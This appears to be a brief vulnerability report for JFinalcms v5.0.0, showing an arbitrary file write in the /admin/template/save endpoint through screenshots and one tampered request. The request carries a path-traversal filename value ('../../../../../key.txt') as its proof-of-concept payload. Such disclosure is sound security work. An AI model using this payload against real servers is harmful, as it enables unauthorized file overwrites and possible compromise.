 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 has an arbitrary file write vulnerability in /admin/template/save

![1](https://github.com/bigbigbigbaby/cms/assets/41852125/52bd5363-66c7-4be1-b560-8ffd7a89d661)


Select a new template and input any content

![2](https://github.com/bigbigbigbaby/cms/assets/41852125/167e86b8-c989-4842-a5d4-56bdd5ff57cd)



Modify the data packet and write it to the specified path

```
directory=default&fileName=../../../../../key.txt&content=123456
```

![3](https://github.com/bigbigbigbaby/cms/assets/41852125/72edf1f3-5399-422c-8570-47b84658e72d)


successed
![4](https://github.com/bigbigbigbaby/cms/assets/41852125/1e69e957-0f40-48f7-9279-8e1170d10c41)

